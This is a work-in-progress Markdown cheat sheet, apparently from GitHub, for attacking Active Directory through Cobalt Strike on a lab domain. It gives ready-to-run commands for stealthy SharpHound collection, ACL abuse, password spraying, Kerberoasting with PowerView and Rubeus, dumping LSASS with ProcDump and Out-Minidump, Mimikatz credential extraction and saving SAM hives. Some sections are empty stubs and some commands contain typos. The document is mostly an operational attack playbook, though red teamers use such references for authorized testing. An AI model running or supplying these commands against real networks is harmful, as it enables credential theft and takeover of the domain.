# NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
PowerView:
# powershell-import --> Select PowerView.ps1 to import PS1 file in memory
# powershell Get-Module PowerView
# powershell Get-NetUser -Identity testuser -Domain lab.com

SharpView
# execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
# powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
# powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
Running SharpView in memory (.NET version of PowerView)
# execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

Collecting only user sessions to determine who is logged in and where:
# execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp

-------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting manually
```
powershell 
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
```
# powershell-import --> RACE.ps1
# powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-dc.lab.com
# powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-dc.lab.com
```
-------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
Get a domain user list
# powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

Password spray from a username and password list
# powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

Auto spray a specific password on an auto-generated user list (noisy)
# powershell Invoke-DomainPasswordSpray -Password Winter2020
```

### Kerberoasting
PowerView kerberoasting
```
Get users with SPN set
# powershell Get-DomainUesr -SPN

Kerberoast all users
# powershell Invoke-Kerberoast - OutputFormat hashcat | fl

Kerberoast specific user
# powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
Kerberoast all users:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

Kerberoast specific user:
# execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

-------------------------------------------------
## Exploitation

### Chrome Session Stealing
SharpDPAPI and SharpChrome

---
## Exfiltration - Password Attacks
### Dumping LSASS locally
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but will often still output dump file)
```
# upload --> ProcDump.exe
# shell ProcDump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)
```
# powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```
Extracting hashes offline from LSASS using Mimikatz
```
# mimikatz.exe log "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "sekurlsa::wdigest" exit
```
### SAM dump
```
# reg.exe save HKLM\sam sam.save
# reg.exe save HKLM\security security.save
# reg.exe save HKLM\system system.save

Download files to dump SAM hahses offline using [Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
# python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
### NTDS.dit dump
Secretsdump.py to dump NTDS.dit hashes remotely

NTDSutil to dump NTDS.dit locally on a Domain Controller

---
# References
[Cobalt Strike commands cheat-sheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)
[Sharphound](https://github.com/BloodHoundAD/SharpHound3)
[Mimikatz reference cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)
